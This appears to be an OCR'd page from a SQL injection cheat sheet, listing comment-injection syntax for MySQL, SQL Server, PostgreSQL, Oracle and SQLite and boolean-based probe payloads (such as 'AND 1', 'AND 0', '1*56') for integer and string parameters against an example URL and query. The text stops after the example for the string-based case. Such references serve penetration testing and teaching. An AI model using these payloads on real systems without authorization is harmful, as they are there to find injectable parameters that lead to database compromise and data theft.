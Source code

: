 ## Comment injection

Put a line comment at the end to comment out the rest of the query.

Valid for MySQL, SQL Server, PostgreSQL, Oracle, SQLite:

```
-- comment      // MySQL [Note the space after the double dash]
--comment       // MSSQL
--comment       // PostgreSQL
--comment       // Oracle


/*comment*/     // MySQL
/*comment*/     // MSSQL
/*comment*/     // PostgreSQL

#comment        // MySQL

```

## Boolean-based testing

### Integer based parameter injection

Common in Integer based parameter injection such as:

```
URL: https://site.com/user.php?id=1
SQL query: SELECT * FROM users WHERE id= FUZZ;
```

Typical payloads for that query:

```
# Return true
AND 1
And true

# Return False
AND 0
And false

# Return 56 if vulnerable
1*56

# Return 1 if not vulnerable
1*56

```

### String based parameter injection

```
URL: https://site.com/user.php?id=alexis
SQL query: SELECT * FROM users WHERE name= 'FUZZ';
```
